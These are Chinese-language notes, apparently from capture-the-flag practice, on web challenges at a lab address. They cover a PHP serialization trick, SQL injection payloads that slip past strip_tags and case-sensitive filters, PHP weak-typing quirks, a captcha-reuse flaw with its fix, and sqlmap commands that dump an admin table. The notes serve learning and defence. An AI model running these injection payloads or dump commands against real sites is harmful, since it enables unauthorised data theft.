 
    使用php在Flag类创建对象
    $a = new Flag()
    $a -> file = 'fal9.php'
    echo serialize($a);
    
    放在php环境自己执行下？
### 题目13: sql 注入

    http://192.168.100.111/web/web13/
    页面上有源码， 查看关键sql语句。 pw有做过滤。 user没有--从user下手。 用户名处直接注释掉
### 题目15: sql 注入

    绕过 and , or
    http://192.168.100.111/web/web15/?id=1
    源码用了 strip_tags，通过添加<>标签绕过。
    方法1: http://192.168.100.111/web/web15/?id=1 a<>nd 1=1
    方法2: http://192.168.100.111/web/web15/?id=1 AND 1=1 , 大小写未过滤
### 题目： php相关

    php中的弱类型比较：字符和数字比较时 字符当作0处理
    5.x版本中 (int)3.1e10 会省略为3 ， 
    7.x版本中是 3100000000

  0， null, !== false, ==false     ---  !==不全等

验证码相关

    1. 有的能直接使用上次的验证码暴破
    2. 有时验证码为空也可发送
    
    验证码发布的流程
    1. 显示表单
    2. 显示验证码（调用生成验证码的程序），将验证码加密后放进 session 或者 cookie
    3. 用户提交表单
    4. 核对验证码无误、数据合法后写入数据库完成
    用户如果再发布一条，正常情况下，会再次访问表单页面，验证码图片被动更新， session 和 cookie 也就跟着变了
    但是灌水机操作不一定非要使用表单页面，它可以直接模拟 post 向服务端程序发送数据，这样验证码程序没有被调用，当然 session 和 cookie 存储的加密验证码就是上次的值，也就没有更新，这样以后无限次的通过post直接发送的数据，而不考虑验证码，验证码形同虚设！
    所以，在核对验证码后先将 session 和 cookie 的值清空，然后做数据合法性判断，然后入库！这样，一个漏洞就被补上了！

## Sql 题目
### 工具
sqlmap
#### sqlmap manual

将请求保存成3.txt

sqlmap  -r 3.txt --technique T --level 3 --tamper=space2comment

sqlmap  -r 3.txt --technique T --level 3 --tamper=space2comment -D injection -T admin --dump

--technique
